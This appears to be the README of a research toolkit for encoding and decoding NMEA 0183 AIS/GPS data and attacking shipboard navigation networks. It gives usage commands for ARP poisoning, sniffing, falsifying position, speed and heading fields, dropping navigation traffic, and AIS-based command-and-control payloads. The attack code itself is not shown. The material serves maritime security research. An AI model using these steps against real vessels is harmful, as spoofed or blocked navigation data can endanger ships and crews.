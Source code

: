 # NMEA_Tool_Kit

Tool kit for encoding, decoding **NMEA 0183 sentences of AIS, GPS** and to perform MITM attacks ship board navigational systems.

This scripts are tested in Ubuntu Machiene running ***Python 3.9.7*** with simulated NMEA 0183 data.

## Setup

To use the scriprs, install the modules in the ***requirements.txt***

```
pip3 install requirements.txt
```

## Attack Modes

Script contains 4 attack options, run ***-h*** for help.

```
python3 nmea_attacks.py -h
```

Before running the ***nmea_attacks.py***, need to run ***mitm_arp.py*** to start ARP poisoining to intercept traffic, Requires root privileges

```
sudo python3 mitm_arp.py -t TARGET_IP -s SOURCE_IP -i INTERFACE_NAME
```

#### S - Sniffing Attack

Sniff all NMEA 0183 data in communication between targets.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o S
```

#### M - Modification Attack

Modify NMEA sentence data fields based on json configuration file.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o M -c CONFIG_FILE.json
```

For sample configuration refer ***mitm_config.json***

```
"GPGGA" : {
    "attributes" : [
        {
            "key" : "hdop",
            "value" : "2",
            "incremental": false
        },
        {
            "key" : "lon",
            "value": 100,
            "incremental" : true
        }
    ]
}
```
if incremental is ```true```, then specify value as ```integer or float``` (without quotes).

#### A - Attribute Modification

To target specific data fileds across all intercepted sentences if exists (eg. lat/lon).

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o A -c CONFIG_FILE.json
```

Refer ***attr_config.json*** for example

```
{
"attributes" : 
    [
        {
            "key" : "lat",
            "value" : 100,
            "incremental": true
        },
        {
            "key" : "spd_over_grnd",
            "value" : "10",
            "incremental": false
        },
        {
            "key": "heading",
            "value" : "20",
            "incremental" : false
        }

    ]
}
```

#### D - DoS attacks

Actively drop all NMEA 0183 data in transit

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o D
```

## AIS Command & Control

Use AIS as covert communication channel between attacker machine and attacker controlled node onboard the vessel. For detailed explation please refer


> Ahmed Amro, Vasileios Gkioulos, "From Click To Sink: Utilizing AIS for command and control in maritime cyber attacks", 27th European Symposium on Research > in Computer Security (ESORICS) 2022.

#### NOTE: 

#### Generate Payloads

To create AIS sentences with attacker payload use ***ais_cc.py**

For file payloads

```
python3 ais_cc.py -f FILE_NAME
```

For commands

```
python3 ais_cc.py -c "CMD"
```

#### Command & Control Execution

Attack option ***-o C*** in ***nmea_attacks.py*** demonstrates attack node executing payloads in AIS senetences.

```
sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o C
```
